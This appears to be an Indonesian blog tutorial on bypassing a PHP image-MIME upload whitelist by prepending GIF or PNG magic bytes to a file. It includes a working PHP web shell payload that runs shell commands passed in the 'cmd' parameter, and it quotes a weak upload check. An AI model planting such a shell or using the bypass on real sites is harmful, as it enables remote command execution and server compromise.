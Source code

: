 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter - Header Manipulation"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension blogs blog
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```php
if($imageinfo['mime'] != 'image/gif' && 
   $imageinfo['mime'] != 'image/jpeg' && 
   $imageinfo['mime'] != 'image/jpg'&& 
   $imageinfo['mime'] != 'image/png') { die('Error 002'); }
```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
> ![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
> ![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
> ![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```

```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it

Upload File shell langsung

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)

ternyata terdapat whitelist

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)

lalu di coba upload file shell yang sudah diedit

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)

pwnd

> ![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)